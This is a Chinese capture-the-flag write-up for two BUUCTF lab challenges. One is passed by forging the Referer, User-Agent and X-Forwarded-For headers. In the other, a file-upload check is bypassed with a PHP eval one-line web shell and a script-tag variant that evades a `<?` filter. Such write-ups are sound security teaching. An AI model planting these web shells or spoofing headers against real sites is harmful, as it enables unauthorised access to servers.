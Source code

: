 ### 考http，大概率考http请求体header的用法

可以用burpsuite/浏览器hackbar直接加



1. 访问网站，查看源码发现跳转文件secret.php

![image-20220130133859973](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220130133859973.png)

2. 网页显示It doesn't come from 'https://Sycsecret.buuoj.cn'提示不是从某网站跳转过来的==》修改Referer:https://www.Sycsecret.com

3. Please use "Syclover" browser  ==》修改User-Agent:Syclover
4. No!!! you can only read this locally!!!  ==》要从本地访问\==》修改X-Forwarded-For:127.0.0.1

![image-20220130134240237](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220130134240237.png)

## [极客大挑战 2019]Upload

### 考点：<?、图片头绕过、php可解析后缀、上传位置

查看源码，关键源码

```html
	<form action="upload_file.php" method="post" enctype="multipart/form-data">
	</br></br></br></br></br></br></br></br></br></br></br></br></br></br></br>
    	<div align="center">  
    		<label for="file" style="font:20px Georgia,serif;">图片：</label>
    		<input type="file" name="file" id="file" >
   			<input type="submit" name="submit" value="提交" class="button">
   		</div>
	</form>
```

#### html知识

***div标签定义 HTML 文档中的分隔（DIVision）或部分（section），表示一块***

***align是对齐属性，center：居中对齐***

***action 属性规定当提交表单时，向何处发送表单数据。***

上传文件到upload_file.php，文件表单名叫file



1. 试试上传一句话木马shell.php，发现不行，返回Not image!，前端对后缀名有限制

```
Content-Type: application/octet-stream
<?php @eval($_POST['shell']);?>
```

2. 改成shell.php.jpg也不行，改mime:image/jpeg也不行，说明后端对文件头有限制

3. 上传图片马，发现对<?有过滤

   - **==标签绕过==**：`<script language=php> eval($_POST['c']);</script>`
